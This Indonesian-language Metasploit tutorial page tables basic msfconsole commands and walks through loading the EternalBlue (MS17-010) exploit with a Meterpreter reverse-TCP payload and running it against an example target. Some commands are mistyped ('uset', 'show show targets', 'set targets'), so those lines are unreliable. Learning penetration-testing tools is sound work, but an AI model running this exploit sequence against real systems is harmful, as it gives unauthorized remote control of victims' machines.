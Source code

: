 <p align="left"><b>Sebelumnya</b>: <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Antarmuka%20Metasploit%20Framework.md">Antarmuka Metasploit Framework</a></p>

# Perintah Dasar MSFconsole

## Perintah Navigasi dan Bantuan

| Perintah | Deskripsi |
|:--:|:--:|
| `help` | Menampilkan daftar perintah yang tersedia |
| `help [perintah]` | Menampilkan bantuan untuk perintah tertentu |
| `back` | Kembali dari konteks modul ke prompt utama |
| `exit` | Keluar dari MSFconsole |
| `version` | Menampilkan versi Metasploit Framework |

## Perintah Pencarian dan Informasi

| Perintah | Deskripsi |
|:--:|:--:|
| `search [kata kunci]` | Mencari modul berdasarkan kata kunci |
| `info [modul]` | Menampilkan informasi tentang modul tertentu |
| `show exploits` | Menampilkan semua modul exploit yang tersedia |
| `show auxiliary` | Menampilkan semua modul auxiliary yang tersedia |
| `show payloads` | Menampilkan semua payload yang tersedia |
| `show options` | Menampilkan opsi yang tersedia untuk modul yang dipilih |

## Penggunaan Modul

| Perintah | Deskripsi |
|:--:|:--:|
| `use [path modul]` | Memilih modul untuk digunakan |
| `set [opsi] [nilai]` | Mengatur nilai untuk opsi tertentu |
| `setg [opsi] [nilai]` | Mengatur nilai global untuk opsi tertentu |
| `uset [opsi]` | Menghapus nilai opsi |
| `check` | Memeriksa apakah target rentan (tidak semua modul mendukung) |
| `run` atau `exploit` | Menjalankan modul yang dipilih |

## Contoh Penggunaan Dasar

### Mencari Modul

```
search type:exploit platform:windows remote
```

Untuk pencarian lebih spesifik

```
search cve:2021 type:exploit
```

### Menggunakan Modul

```
# Menggunakan modul EternalBlue (MS17-010)
use exploit/windows/smb/ms17_010_eternalblue

# Menampilkan opsi yang ada di modul ms17_010_eternalblue
show options

# Menggunakan payload windows/x64/meterpreter/reverse_tcp
set PAYLOAD windows/x64/meterpreter/reverse_tcp

# Setting alamat IP target yang ingin dieksploitasi
set RHOSTS 192.168.1.10

# Setting port SMB dari target (default: 445)
set RPORT 445

# Setting alamat IP lokal (attacker) yang akan menerima koneksi reverse
set LHOST 192.168.1.5

# Setting port lokal untuk koneksi reverse
set LPORT 4444

# Menampilkan daftar target yang didukung oleh modul
show show targets

# Memilih target yang sesuai dari daftar (misal: 1)
set targets 1

# Menjalankan eksploitasi
exploit
```

## Fitur Tambahan MSFconsole

### Mengelola Sesi 

| Perintah | Deskripsi |
|:--:|:--:|
| `sessions -l` | Menampilkan semua sesi yang aktif |
| `sessions -i [id]` | Berinteraksi dengan sesi tertentu |
| `sessions -k [id]` | Menghentikan sesi tertentu |

### Manajemen Database

| Perintah | Deskripsi |
|:--:|:--:|
| `db_status` | Memeriksa status koneksi database |
| `workspace` | Menampilkan dan mengelola workspace | 
| `hosts` | Menampilkan host yang tersimpan di database |
| `services` | Menampilkan layanan yang tersimpan di database |
| `vulns` | Menampilkan kerentanan yang terdeteksi |

Itu dia perintah dasar MSFconsole.

<p align="right"><b>Selanjutnya</b>: <a href="">Next</a></p>
